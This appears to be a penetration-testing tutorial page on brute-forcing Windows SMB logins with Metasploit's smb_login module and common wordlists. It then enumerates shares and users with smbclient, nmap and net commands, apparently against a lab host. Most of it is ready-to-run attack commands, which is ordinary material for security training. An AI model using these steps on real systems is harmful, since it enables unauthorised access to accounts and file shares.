

BruteForce Username and Password
Windows file sharing explanation here:
NetBIOS and
SMBVulnerability Testing →
HereBruteforce Login
If we want to try to bruteforce the credentials for SMB login, we can use the metasploit module: auxiliary/scanner/smb/smb_login
msfconsole
use auxiliary/scanner/smb/smb_login
set Password list from Seclists(
https://github.com/danielmiessler/SecLists)
set PASS_FILE /usr/share/seclists/Passwords/Common-Credentials/best15.txt
but better:
set PASS_FILE /usr/share/john/password.lst
set User list from Seclists(
https://github.com/danielmiessler/SecLists)
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
set IP Address of the target host
Found Administrator credentials!Username: administrator
Password: password
2.
Enumerate the Shares using username and password foundOnce we have found the credentials by bruteforce we can enumerate the shares
Linux(better!):
smbclient -L <IP_Address> --user=<username>%<password> #Linux
nmap -script=smb-enum-shares --script-args smbusername=<username>,smbpass=<password> <IP_Address> -p445 #Linux
Windows:
net use \\<IP_Address>\IPC$ <password> /u:<username>
net view \\<IP_Address>
3.
Enumerate users using username and password found nmap --script=smb-enum-users -p 445 10.130.40.70 --script-args smbuser=administrator,smbpass=password